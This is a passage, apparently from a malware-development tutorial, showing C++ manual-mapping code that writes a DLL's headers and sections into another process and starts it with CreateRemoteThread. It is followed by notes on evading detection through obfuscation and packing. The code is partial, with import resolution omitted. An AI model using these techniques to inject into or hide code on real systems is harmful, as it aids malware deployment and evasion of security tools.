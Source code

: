 ```cpp
    // Write the headers to the allocated memory
    WriteProcessMemory(hProcess, pTargetBase, pSrcData, pNtHeaders->OptionalHeader.SizeOfHeaders, nullptr);

    // Write each section to the allocated memory
    IMAGE_SECTION_HEADER* pSectionHeader = (IMAGE_SECTION_HEADER*)(pNtHeaders + 1);
    for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(hProcess, (LPVOID)((BYTE*)pTargetBase + pSectionHeader[i].VirtualAddress),
            pSrcData + pSectionHeader[i].PointerToRawData, pSectionHeader[i].SizeOfRawData, nullptr);
    }

    // Resolve imports and fix relocations here (omitted for brevity)

    // Call the entry point (DllMain)
    HANDLE hThread = CreateRemoteThread(hProcess, nullptr, 0,
        (LPTHREAD_START_ROUTINE)((BYTE*)pTargetBase + pNtHeaders->OptionalHeader.AddressOfEntryPoint), nullptr, 0, nullptr);

    if (hThread) {
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
        return true;
    }

    return false;
}
```

#### **Key Points to Remember:**
- **PE Parsing**: You need to correctly parse the PE headers to locate sections and imports.
- **Relocation**: If the preferred base address isn’t available, relocate the addresses accordingly.
- **Import Resolution**: Manually resolve imports using `GetProcAddress` to find the addresses of functions in loaded modules.

### **2. Obfuscation Techniques**

Obfuscation is the practice of hiding the true intent or content of code, making it more difficult to analyze, reverse-engineer, or detect by security tools. Common obfuscation techniques include:

- **String Obfuscation**: Encrypting or encoding strings used in the payload, such as API names, file paths, or command-line arguments.
  
- **Control Flow Obfuscation**: Altering the logical flow of the code to make it harder to follow. This can involve adding junk code, dead code, or confusing control structures.

- **Packing**: Compressing or encrypting the entire binary and unpacking it at runtime. This is commonly done using tools like UPX or custom packers.

- **Function Inlining and Splitting**: Breaking functions into smaller parts or inlining small functions to make the code less recognizable.
